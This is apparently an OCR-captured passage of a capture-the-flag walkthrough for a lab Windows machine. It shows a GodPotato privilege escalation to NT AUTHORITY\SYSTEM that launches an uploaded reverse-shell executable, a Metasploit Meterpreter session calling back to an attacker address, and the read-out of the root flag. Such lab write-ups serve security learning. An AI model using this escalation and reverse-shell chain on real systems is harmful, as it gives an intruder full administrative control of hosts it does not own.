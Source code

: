 ```
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 2440
nt authority\system

```
make a windows x64 shell and run it using the GodPotato to impressionate as NT authority
```
C:\xampp\htdocs>GodPotato-NET4.exe -cmd "C:\xampp\htdocs\uploads\rev.exe"
[*] CombaseModule: 0x140714977132544

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.109:2023 
[*] Sending stage (200774 bytes) to 10.10.11.234

[*] Meterpreter session 1 opened (10.10.14.109:2023 -> 10.10.11.234:49685) at 2023-10-03 19:13:28 -0400

meterpreter > 
meterpreter > 
meterpreter > sysinfo 
Computer        : VISUAL
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > shell
Process 2040 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.4851]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>whoami
whoami
nt authority\system

C:\xampp\htdocs>

```
```

 Directory of C:\Users\Administrator\Desktop

09/19/2023  08:20 AM    <DIR>          .
09/19/2023  08:20 AM    <DIR>          ..
10/03/2023  03:41 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   8,916,811,776 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
dba61b54184be6dd2f3ca08c386cb473

C:\Users\Administrator\Desktop>
```